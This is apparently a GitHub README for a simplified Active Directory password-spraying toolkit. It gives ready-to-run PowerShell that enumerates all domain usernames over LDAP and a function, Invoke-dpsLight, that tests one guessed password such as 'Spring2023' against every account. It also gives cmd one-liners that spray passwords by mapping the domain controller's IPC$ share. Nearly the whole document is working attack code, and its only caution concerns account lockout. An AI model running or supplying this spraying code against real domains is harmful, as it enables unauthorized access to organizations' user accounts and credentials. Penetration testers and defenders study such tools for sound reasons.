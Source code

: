 # DomainPasswordSprayLight

Kudos to Beau Bullock and his [Domain Password Spray Script](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) of which this is a simplification.

## Gather Domain Usernames

Run the following to get a PowerShell object called $AllUserObjects that you can interact with to sort, filter and write seletected usernames to a file of your choosing.

```PowerShell
$UserSearcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$CurrentDomain)
$DirEntry = New-Object System.DirectoryServices.DirectoryEntry
$UserSearcher.SearchRoot = $DirEntry
$UserSearcher.PropertiesToLoad.Add("samaccountname") | Out-Null
$Filter = ""
$UserSearcher.filter = "(&(objectCategory=person)(objectClass=user)$Filter)"
$UserSearcher.PageSize = 1000

Write-Host -ForegroundColor Cyan "Searching for all users, this may take several minutes."
$AllUserObjects = $UserSearcher.FindAll()
Write-Host -ForegroundColor "yellow" ("[*] " + $AllUserObjects.count + " total users found.")
```

### Write all usernames to a file

```PowerShell
$outfile = "all-user.txt"
Remove-Item $outfile -ErrorAction Ignore
$AllUserObjects.Properties.samaccountname | add-content $outfile
```

### Write specific users to a file

In this example, the usernames are limited to only those that start with "ab"

```PowerShell
$outfile =  "all-ab-accounts.txt" 
Remove-Item $outfile -ErrorAction Ignore
($AllUserObjects | where-object {$_.Properties.samaccountname -like  "ab*"}).Properties.samaccountname | add-content $outfile
```
## Password Spray with PowerShell

First, copy and paste the Invoke-dpsLight function below into your PowerShell window. This will not run the password spray but will make the Invoke-dpsLight function available for us to use.

```PowerShell
function Invoke-dpsLight ($Password, $userlist) {
    $users = Get-Content $userlist
    $Domain = "LDAP://" + ([ADSI]"").distinguishedName
    $count = 0
    foreach ($User in $users) {
        $count = $count + 1
        $Domain_check = New-Object System.DirectoryServices.DirectoryEntry($Domain, $User, $Password)
        if ($Domain_check.name -ne $null) {
            Write-Host -ForegroundColor Green "Password found for User:$User Password:$Password"
        }
        else {
            Write-Host "$count`:$User " -NoNewline
            # start-sleep -milliseconds 300
        }
    }
    Write-Host -ForegroundColor green "Finished"
}
```

Next, you can execute the follow to run the password spray. Be very careful. You could lock every user in the domain out using this script. Don't run it multiple times in a short period of time. In this example, `Spring2023` is the password guess and **all-ab-users.txt** is the list of usernames to try the password on.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt
```

Or, if you want to output the results to a file in addition to on the screen you can use the following.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt 2 *>&1 | tee -Append out.txt
```

## Password Spray from the Command Prompt

This method using a different method which generates different Windows event IDs. It is also much slower.

The command below loops through a list of users and attempts to map the IPC$ share on the domain controller in order to determine if the password is correct or not. If it is correct, it prints a message to the screen and then unmaps/disconnects from the IPC$ share.

This example uses a password of `Spring2023` against a list of users called **users.txt** in the current directory.

```cmd
@FOR /F "delims=" %n in (users.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\%n" "Spring2023" 1>NUL 2>&1 && @echo [*] %n:Spring2023 && @net use /delete %logonserver%\IPC$ > NUL
```

Or, if you want to send the output to a file so that you have a record of how far you got through the spray and what user passwords you guessed, you can use the following which will write the output to a file called **out.txt**.

```cmd
@FOR /F "delims=" %n in (users.txt) DO @echo %n >> out.txt && @net use %logonserver%\IPC$ /user:"%userdomain%\%n" "Spring2023" 1>NUL 2>&1 && @echo [*] %n:Spring2023 >> out.txt && @net use /delete %logonserver%\IPC$ > NUL
```
